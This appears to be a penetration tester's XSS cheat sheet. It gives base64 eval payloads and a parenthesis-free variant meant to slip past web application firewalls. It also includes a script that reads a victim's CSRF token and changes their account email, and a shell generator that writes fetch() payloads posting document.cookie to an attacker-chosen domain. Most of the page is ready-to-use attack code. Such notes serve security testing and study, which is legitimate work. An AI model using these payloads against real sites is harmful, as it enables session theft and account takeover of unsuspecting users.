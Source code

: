 ```yaml
---
icon: js
---
```


# XSS

eval(atob(b64\_payload)) can help with using base64 to bypass WAFs in JS code context

* Comments can be used to remove `=` padding from b64 if necessary

````javascript
//eval("String" + <USER_INPUT>)
eval(atob('YWxlcnQoMSk='))
// Note above would be nested as:
eval("String" + eval(atob('YWxlcnQoMSk='))

//Avoid Parentheses 
Function`x${'eval\x28atob\x28\x27YWxlcnQoMSk=\x27\x29\x29'}x```
````

Script for generating fetch commands

Request to change email

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Script for generating fetch commands

```bash
#!/bin/sh

if [ $# -lt 1 ];
then
        echo "$0 target_domain html_tag";

elif [ $# -eq 1 ];
then
        target_domain=$1

cat << EOF
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
EOF

else
        target_domain=$1
        tag=$2

cat << EOF
<$tag>
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
</$tag>
EOF
fi


```
